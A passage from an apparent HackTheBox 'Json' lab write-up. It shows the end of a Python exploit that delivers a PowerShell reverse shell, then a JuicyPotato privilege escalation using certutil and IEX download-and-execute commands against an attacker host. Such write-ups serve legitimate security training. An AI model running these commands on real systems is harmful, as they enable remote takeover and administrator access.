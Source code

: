 ```py
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Let's mount the ps1 nishang
    mountPayload(lhost,lport)
    # Create the json payload
    createPayload(lhost)
    # Send the payload
    sendPayload(rhost,payload)

if __name__ == '__main__':
    main()
```

Now, let's become administrator on this box

We got three paths for it, but I'll show just one because of the time we have.

# Inetsrv --> Administrator

The first path we will explore is a `SeImpersonatePrivilege` enabled, which we can use the `JuicyPotato` to become root

We see the version of the windows

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-17-HackTheBox-Json/2021-09-17-HackTheBox-Json%2009:59:39.png)

We get the CLSID for this this version on the [Docs](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-17-HackTheBox-Json/2021-09-17-HackTheBox-Json%2009:49:29.png)

`https://ohpe.it/juicy-potato/`

`https://github.com/ohpe/juicy-potato/releases/tag/v0.1`

```sh
certutil -urlcache -split -f http://10.10.14.20:8000/JuicyPotato.exe C:\Users\Public\Documents\JuicyPotato.exe
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-17-HackTheBox-Json/2021-09-17-HackTheBox-Json%2009:52:47.png)

Now we create a call

`"IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.20:8000/Invoke-PowerShellTcp.ps1')"`

`certutil -urlcache -split -f http://10.10.14.20:8000/reverse.bat C:\Users\Public\Documents\reverse.bat`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-17-HackTheBox-Json/2021-09-17-HackTheBox-Json%2009:54:55.png)

```ps
.\JuicyPotato.exe -t * -p .\reverse.bat -l 1111 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

